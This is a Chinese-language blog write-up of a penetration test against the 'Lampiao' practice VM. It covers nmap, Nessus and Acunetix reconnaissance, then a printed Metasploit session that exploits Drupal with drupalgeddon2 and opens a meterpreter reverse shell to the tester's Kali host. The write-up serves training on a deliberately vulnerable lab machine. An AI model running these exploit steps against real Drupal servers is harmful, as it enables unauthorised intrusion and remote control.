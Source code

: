 ```yaml
---
# 当前页面内容标题
title: Lampiao渗透测试
# sidebar: heading
# 当前页面图标
icon: note
# 分类
category:
    - 日常
tag:
    - 渗透测试
sticky: false
# 是否收藏在博客主题的文章列表中，当填入数字时，数字越大，排名越靠前。
star: false
# 是否将该文章添加至文章列表中
article: true
# 是否将该文章添加至时间线中
timeline: true
# sidebar: heading
order: 1
date: 2023-02-16
# 浏览量
pageview: true
---
```

# Lampiao渗透测试

已知信息：

- 系统：ubuntu 14.04.5
- ip：192.168.235.0-255

## 信息收集

```cmd
nmap -sP 192.168.235.1/24
```

![image-20221020191130854](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20221020191130854.png)

发现4个IP存活，排除1（网关），254（广播地址）和130（kali），那就是133，获取该主机的信息

```cmd
nmap -A 192.168.235.133
```

![image-20221020192202681](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20221020192202681.png)

发现目标主机开启了两个端口，分别是：

1. 22/tcp：版本OpenSSH 6.6.1p1
2. 80/tcp：

访问80端口

![image-20221020192558888](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20221020192558888.png)

使用御剑扫描一下目录，没有结果

![image-20221020193315207](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20221020193315207.png)

使用Nessus对目标主机进行漏扫，发现还有一个1898端口是开启的，使用浏览器访问

![image-20221020195123574](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20221020200557833.png)

继续在Nessus收集信息

![image-20221020200557833](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20221020212832956.png)

查看/includes路径，进入了文本的目录

![image-20221020200641789](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20221020200641789.png)

web服务器

![image-20221020212832956](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20221020195123574.png)

php版本

![image-20221020213007029](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20221020213007029.png)

Drupal版本：

![image-20221020213036080](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20221020213036080.png)

使用acunetix扫描

```url
http://192.168.235.133:1898
```

![image-20221020214453181](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20221020214453181.png)

## 开始攻击

![image-20221020215715086](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20221020215715086.png)

使用msf来进行攻击，首先查找drupal相关的漏洞，一共有7个，因为不知道用哪个，所以要一个一个试

当使用use 1 时获取到了系统权限

```shell
msf6 > use 1
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set rhosts 192.168.235.133
rhosts => 192.168.235.133
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set rport 1898
rport => 1898
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > run
[*] Started reverse TCP handler on 192.168.235.130:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Sending stage (39927 bytes) to 192.168.235.133
[*] Meterpreter session 1 opened (192.168.235.130:4444 -> 192.168.235.133:34234) at 2022-10-20 10:35:48 -0400
```

输入shell

![image-20221020224214073](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20221020224214073.png)

